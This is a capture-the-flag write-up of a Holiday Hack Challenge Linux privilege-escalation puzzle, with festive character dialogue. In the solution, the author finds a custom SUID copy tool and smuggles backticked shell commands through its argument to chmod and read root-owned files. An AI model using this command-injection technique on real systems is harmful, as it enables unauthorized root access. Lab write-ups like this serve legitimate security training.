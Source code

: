```yaml
---
icon: material/text-box-outline
---
```


# Linux Priv Esc

**Difficulty**: :material-pine-tree-variant::material-pine-tree-variant::material-pine-tree-variant::material-pine-tree-variant-outline::material-pine-tree-variant-outline:<br/>
**Direct link**: [Linux Priv Esc](https://hhc23-wetty.holidayhackchallenge.com/?&challenge=linuxpriv)

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rosemold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.<br/>
    Whatever. Do you know much about privilege escalation techniques on Linux?<br/>
    You're asking why? How about I'll tell you why after you help me.<br/>
    And you might have to use that big brain of yours to get creative, bub.<br/>

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system. 

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

## Solution

??? quote
    In a digital winter wonderland we play,
    Where elves and bytes in harmony lay.
    This festive terminal is clear and bright,
    Escalate privileges, and bring forth the light.

    Start in the land of bash, where you reside,
    But to win this game, to root you must glide.
    Climb the ladder, permissions to seize,
    Unravel the mystery, with elegance and ease.

    There lies a gift, in the root's domain,
    An executable file to run, the prize you'll obtain.
    The game is won, the challenge complete,
    Merry Christmas to all, and to all, a root feat!

    * Find a method to escalate privileges inside this terminal and then run the binary in /root *

We're not told what the binary we need to run is actually called, so my first step was to see if I could just see it:

```bash
$ ls /root/
ls: cannot open directory '/root/': Permission denied
```

Okay, so my ideal approach to solving this will be:
    1. Find a command with the SUID bit set so that it can access /root
    2. Use it to access /root to find the name of the command to run
    3. Use it to either give me access to the command or run it on my behalf

#### Step 1: Find a command with the SUID bit set

There's probably a smart way to do this, but the lazy way is to just start at /usr/bin with grep:
```bash
$ ls -l /usr/bin/ | grep rws
-rwsr-xr-x 1 root root     85064 Nov 29  2022 chfn
-rwsr-xr-x 1 root root     53040 Nov 29  2022 chsh
-rwsr-xr-x 1 root root     88464 Nov 29  2022 gpasswd
-rwsr-xr-x 1 root root     55528 May 30  2023 mount
-rwsr-xr-x 1 root root     44784 Nov 29  2022 newgrp
-rwsr-xr-x 1 root root     68208 Nov 29  2022 passwd
-rwsr-xr-x 1 root root     16952 Dec  2 22:17 simplecopy
-rwsr-xr-x 1 root root     67816 May 30  2023 su
-rwsr-xr-x 1 root root     39144 May 30  2023 umount
```

Interesting that `simplecopy` has a later write date and also doesn't sound familiar to me. What can it do?

```bash
$ simplecopy --help
Usage: simplecopy <source> <destination>
```

Looks like we probably have our winner.

#### Step 2: Use the SUID command to find the target command

```bash
$ simplecopy /root/* .
elf@1b594b95da0b:~$ ls -l
total 604
-rw-r--r-- 1 root root    628 Nov 27 17:07 HELP
-rwx------ 1 root root 612560 Jan  2 00:45 runmetoanswer
```

I, uh, wasn't expecting that to work...

#### Step 3: Use the SUID command to run the target command

Does OS command injection work?

```bash
$ simplecopy "\`echo 'hi'\`" test
cp: cannot stat 'hi': No such file or directory
```

Seems like it.

!!! info "Escaping"
    You need to escape the backticks, otherwise the shell will evaluate it before passing it to simplecopy.

So perhaps we can just make /root/runtoanswer generally executable:
```bash
$ simplecopy "\`chmod 777 /root\`" test
cp: missing destination file operand after 'test'
Try 'cp --help' for more information.
elf@1b594b95da0b:~$ simplecopy "\`chmod +sx /root/runmetoanswer\`" test
cp: missing destination file operand after 'test'
Try 'cp --help' for more information.
```

And then just run the executable:
```bash
$ /root/runmetoanswer 
Who delivers Christmas presents?

> Santa
Your answer: Santa

Checking....
Sorry, that answer is incorrect. Please try again!
```

Hmm, let's see if we can find anything useful in the binary:
```bash
$ simplecopy "\`chmod +rx /root/runmetoanswer\`" test
cp: missing destination file operand after 'test'
Try 'cp --help' for more information.
$ strings /root/runmetoanswer
```

That gives us a lot of output... what about:
```bash
$ strings -n 7 /root/runmetoanswer | grep -i answer
```
Hmm `/etc/runtoanswer.yaml` seems interesting:

```bash
$ simplecopy "\`cat /etc/runtoanswer.yaml > runtoanswer.yaml\`" .
cp: missing destination file operand after '.'
Try 'cp --help' for more information.
elf@1b594b95da0b:~$ ls
HELP  runmetoanswer  runtoanswer.yaml
elf@1b594b95da0b:~$ cat runtoanswer.yaml
```

So it was just case sensitive...

```bash
$ /root/runmetoanswer santa
```

??? info
    An alternative way to find the answer sheet would've been to try to run runtoanswer without the SUID bit:
    ```bash
    $ ./runmetoanswer 
    Something went wrong reading the configuration file /etc/runtoanswer.yaml: Couldn't open file: Permission denied (os error 13)

    If this persists, please ask for help!
    ```

## Response

!!! quote "Rosemold"
    Yup, I knew you knew. You just have that vibe.<br/>
    To answer your question of why from earlier... Nunya!<br/>
    But, I will tell you something better, about some information I... found.<br/>
    There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.<br/>
    The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.<br/>
    That's all I got. K byyeeeee.<br/>
    Ugh... n00bs...<br/>
